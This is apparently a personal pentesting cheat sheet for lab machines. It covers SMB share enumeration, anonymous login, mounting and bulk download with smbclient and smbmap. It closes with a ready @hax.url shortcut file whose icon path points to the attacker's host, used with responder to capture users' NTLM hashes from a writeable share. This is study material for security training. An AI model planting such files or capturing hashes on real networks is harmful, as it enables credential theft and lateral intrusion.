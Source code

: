 refer to [[Active Information Gathering]]for enumeration

list shares from Kali:
`smbclient -N -L 10.10.11.174` 
- `-N`: no password
`smbclient -L //192.168.171.21 -U Fiona.Clark`

Connect to a share from Kali:
`smbclient -N //10.10.11.174/support-tools`
commands to use: `dir`, `get [filename]` (like ftp)

Mount a share:
`sudo mkdir /mnt/myFolder`
`sudo mount -t cifs  //10.10.11.174/support-tools /mnt/myFolder/`

Download all files in share (after connecting to it):
`recurse ON`
`prompt OFF`
`mget *`

List all files the user has access to on the SMB:
`smbmap -d active.htb -u [username] -p [password] -H [target ip] -R [name of share]`

Write a file to SMB share:
`put [filename from local]`

## Writeable share exploit
As this is a Windows host, we can use the SMB share access to upload a file that the target system will interpret as a Windows shortcut. In this file, we can specify an icon that points to our Kali host. This should allow us to capture the user's NTLM hash when it is accessed.

1. We'll create a file named @hax.url with the following contents.
```
[InternetShortcut]
URL=anything
WorkingDirectory=anything
IconFile=\\[kali ip]\%USERNAME%.icon
IconIndex=1
```
2. Before uploading the file to the SMB share, let's start `responder` to listen for the request.
	`sudo responder -I tun0 -v`
3. Upload our file to the SMB share:
	`put @hax.url`
4. NTLM hash will be captured by responder after a while.